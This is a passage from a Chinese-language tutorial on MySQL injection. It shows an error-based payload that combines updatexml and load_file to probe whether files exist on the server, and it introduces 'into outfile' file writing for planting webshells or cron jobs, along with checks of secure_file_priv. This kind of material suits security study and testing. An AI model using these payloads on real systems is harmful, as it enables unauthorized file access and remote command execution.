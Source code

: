 select load_file()如果文件不存在时，结果为NULL，不会报错。

load_file()可以和报错注入结合，扫描文件是否存在。以下sql语句当文件存在时返回1，不存在时返回0。

```mysql
select * from test where id='1' and updatexml(1,concat(0x7e,(select NOT ISNULL(load_file('D:\\20242272.php'))),0x7e),1)
```

```
ERROR 1105 (HY000): XPATH syntax error: '~1~'
```



#### 4.2.2 写文件

关键函数：`into outfile `

==利用条件==：知道网站目录的绝对路径；有写文件的权限；

危害：可以用于写webshell、写定时任务，从而执行命令。

**（1）查看MYSQL写文件的权限**

当secure_file_priv为NULL时，数据库不允许写文件；当secure_file_priv的值为空时，可以向任意路径写文件。

```mysql
mysql> select @@global.secure_file_priv;
+---------------------------+
| @@global.secure_file_priv |
+---------------------------+
| D:\                       |
+---------------------------+

mysql> select @@secure_file_priv;
+--------------------+
| @@secure_file_priv |
+--------------------+
| D:\                |
+--------------------+
```

```mysql
mysql> SHOW VARIABLES LIKE '%secure%';
+--------------------------+-------+
| Variable_name            | Value |
+--------------------------+-------+
| require_secure_transport | OFF   |
| secure_auth              | ON    |
| secure_file_priv         | D:\   |
+--------------------------+-------+
```

```mysql
mysql> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv | D:\   |
+------------------+-------+
1 row in set, 1 warning (0.00 sec)
```
